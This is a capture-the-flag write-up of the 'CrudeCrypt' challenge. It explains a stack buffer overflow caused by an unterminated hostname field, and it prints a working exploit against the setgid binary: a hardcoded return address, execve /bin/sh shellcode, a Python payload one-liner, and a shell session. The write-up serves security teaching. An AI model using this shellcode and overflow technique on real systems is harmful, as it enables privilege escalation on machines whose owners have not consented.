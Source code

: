 # CrudeCrypt Writeup
##### By sdamashek of TJ CSL

CrudeCrypt is an encryption/decryption program. After reading the code, we knew it uses AES128-CBC for the encryption and decryption. After staring at it for a little while, we saw no clear vulnerability with the actual encryption/decryption functions (`encrypt_buffer` and `decrypt_buffer`), so we concluded the vulnerability must be somewhere else.

The program takes an action from the command line (either `encrypt` or `decrypt`), and returns if the command is not a valid action. We noticed that the program drops privileges if the action is `encrypt`:

```c
if(strcmp(argv[1], "encrypt") == 0) {
    action = &encrypt_file;
    // You shouldn't be able to encrypt files you don't have permission to.
    setegid(getgid());
```

Thus, the vulnerability has to be in the `decrypt` action, because the file we have to become the `crudecrypt` group to read `flag.txt`. Because the `decrypt_file` function checks if the encrypted file is both a multiple of the block size (16) and has a magic number in the header of `0xc0dec0de`, we couldn't just decrypt `flag.txt` and encrypt the result to get the flag. After a bit of denial, we concluded the only way to read `flag.txt` was to get a shell, instead of tricking the program into decrypting it, then getting the flag from that result. It also helped that it was also a binary exploitation problem instead of crypto.

Something that we found really interesting early on was this function call in `decrypt_file`:

```c
if(!check_hostname(header)) {
    printf("[#] Warning: File not encrypted by current machine.\n");
}
// check_hostname:
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

This function seemed rather pointless, as it doesn't error out. After experimenting with some different runs, we noticed it gave this error on some machines, even when it *was* encrypted on the current machine. It seemed pretty obvious at this point that something was up here, and that this is probably where the exploit should go. We looked at how the hostname was retrieved in the encryption function and placed in the encrypted file:

```c
file_header header;
init_file_header(&header, size);
safe_gethostname(header.host, HOST_LEN);
// safe_gethostname:
void safe_gethostname(char *name, size_t len) {
    gethostname(name, len);
    name[len-1] = '\0';
}
```

Okay, so `safe_gethostname` gets `HOST_LEN` (32) characters of the hostname and makes sure the end is terminated by a null byte. But, when decrypting the file, the program doesn't check that the hostname is null terminated. But how does that help us? Look at these lines in `check_hostname` specifically:

```c
char saved_host[HOST_LEN], current_host[HOST_LEN];
strncpy(saved_host, header->host, strlen(header->host));
```

Since `HOST_LEN` is only 32, if `header->host` is not null terminated, `strlen` will return longer than 32, in fact it will continue to the next null byte, and we have a buffer overflow. Lets look at how `header` is set in `decrypt_file`:

```c
if(decrypt_buffer(enc_buf, size, (char*)key, 16) != 0) {
    printf("There was an error decrypting the file!\n");
    return;
}

char* raw_buf = enc_buf;
file_header* header = (file_header*) raw_buf;

// file_header struct
typedef struct {
    unsigned int magic_number;
    unsigned long file_size;
    char host[HOST_LEN];
} file_header;
```

I modified `safe_gethostname` to always set `name` to 32 "k"s, without a null terminator, so that a buffer overflow would occur on decryption:

```c
void safe_gethostname(char *name, size_t len) {
    char *fakename = "kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk";
    memcpy(name, fakename, 32);
}
```

As shown above, the `strncpy` will now copy up to the next null byte onto the stack. If you're not familiar with how buffer overflows work, I recommend reading a tutorial before reading below, such as http://faculty.kfupm.edu.sa/ics/zhioua/Teaching/ICS444/BufferOverflowTutorial2012.pdf. Since the stack is executable, we can just put shellcode on the stack at this point, and use the normal method of jumping to it. The stack layout in `check_hostname` after `strncpy` is called looks like this:

```txt
  32 bytes     8 bytes    4 bytes    4 bytes
[saved_host] [empty space] [ebp] [return address]
```

In my exploit, I placed my shellcode after the return address. Because ASLR is disabled, I didn't have to use any fancy techniques, I could just find the address of the start of the shellcode and overwrite the return address with that address. I determined the second byte after the return address to be located at `0xffffd5d1` using gdb and some experimentation (second because it requires one byte of padding before the shellcode). Below is my payload:

```txt
filler
aaaaaaaa

fake ebp
bbbb

return address (pointer to shellcode)
\xd1\xd5\xff\xff

padding for alignment
a

shellcode (execve /bin/sh)
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68

terminating null byte
\x00
```

I then encrypt this with my custom crude_crypt and decrypt with the supplied setgid crude_crypt in `/home/crudecrypt`:

```bash
pico46900@shell:~$ python -c 'print "aaaaaaaabbbb\xd1\xd5\xff\xffa\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\00"' > payload
pico46900@shell:~$ ./crude_crypt encrypt payload payload.enc
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: a

=> Encrypted file successfully
pico46900@shell:~$ cd /home/crudecrypt
pico46900@shell:/home/crudecrypt$ ./crude_crypt decrypt ~/payload.enc ~/payload.out
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: a

$ cat /home/crudecrypt/flag.txt
writing_software_is_hard
```
